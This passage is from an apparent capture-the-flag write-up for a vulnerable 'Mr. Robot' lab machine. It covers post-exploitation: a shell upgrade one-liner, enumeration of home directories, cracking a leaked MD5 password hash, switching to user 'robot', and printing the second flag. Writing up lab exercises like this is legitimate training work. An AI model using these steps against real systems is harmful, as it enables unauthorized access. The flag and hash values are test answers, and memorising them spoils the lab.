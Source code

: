 **Initial Access Obtained**: User `daemon` with limited privileges

## Post-Exploitation

### System Enumeration

After gaining initial access, performed comprehensive system enumeration:

```bash
# Upgrade to interactive shell
python3 -c 'import pty;pty.spawn("/bin/bash")'

# Explore file system
cd /home
ls -la
```

**User Directory Structure:**
- `/home/robot/` - Primary user account with interesting files
- `/home/ubuntu/` - Secondary user account (minimal content)

### Lateral Movement to User 'robot'

**Discovery in /home/robot/:**
```bash
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
```

**MD5 Hash Found:**
```
robot:c3fcd3d76192e4007dfb496cca67e13b
```

**Password Cracking Result:**
- **Hash**: c3fcd3d76192e4007dfb496cca67e13b
- **Plaintext Password**: abcdefghijklmnopqrstuvwxyz

**User Privilege Escalation:**
```bash
su robot
Password: abcdefghijklmnopqrstuvwxyz
```

**Flag 2 Captured:**
```bash
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```

## Privilege Escalation

### SUID Binary Analysis

Comprehensive search for misconfigured SUID binaries:
